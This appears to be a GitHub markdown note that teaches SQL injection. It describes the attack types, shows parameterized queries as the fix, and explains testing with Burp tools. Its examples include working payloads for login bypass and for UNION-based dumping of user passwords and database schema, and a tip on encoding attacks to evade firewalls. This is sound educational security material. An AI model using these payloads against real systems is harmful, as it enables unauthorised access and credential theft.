 # SQL injection
Allows an attacker to interfere with, and alter, SQL queries being performed by the app.  Relies on string concatenation from unsanitized user input directly into the SQL query.

The attack can come in various forms:

1. Immediate bypass of `WHERE` clause.
2. Information disclosure using `UNION` queries.
3. Stored SQL injection.  This is where the attacker can inject SQL into the database, and have it executed later.

## Prevent
Simple to prevent in an app by using parameterized queries and never allowing dynamic query construction.
```python
with db_connection.cursor(prepared=True) as cursor:
    stmt = "INSERT INTO notes (note, owner_id) VALUES (%s, %s)"
    cursor.execute(stmt, (note, owner_id))
```


## Examples
### Bypass WHERE clause
```python
# Insecure query
query = f"SELECT username FROM users WHERE username = '{username}' AND password = '{password}'"

# If username is passed as either of the following, attack will succeed as the password check is
# bypassed by the SQL comment `--`.
username = "admin'--"
username = "admin' OR 1=1--"
```

### Information disclosure
```python
# Insecure query
query = f"SELECT product_name FROM products WHERE product_id = {product_id}"

# Retrieve all users and passwords
# The UNION query concatenates multiple columns togehter into a single column
# as only one column is being returned by the original query
product_id = "1 UNION SELECT CONCAT(`username`, ' ', `password`) FROM users--"

# View database schema
product_id = "1 UNION SELECT CONCAT(`table_name`, ' ', `column_name`) FROM information_schema.columns--"
```



## Test

1. Use [Burp Proxy](https://portswigger.net/burp/documentation/desktop/tools/proxy) to intercept requests and send them to the [Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater).
2. Alter the request payloads and observe the response.

### Tips

If requests are being blocked, try encoding the attack using a tool like Hackvertor.  Firewalls can sometimes be circumvented by hex and decimal encoding, which the application will decode and execute.

## Tools
* [Burp Proxy](https://portswigger.net/burp/documentation/desktop/tools/proxy)
* [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater)
* [BApp Store > Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100)

## References
* https://portswigger.net/web-security/sql-injection
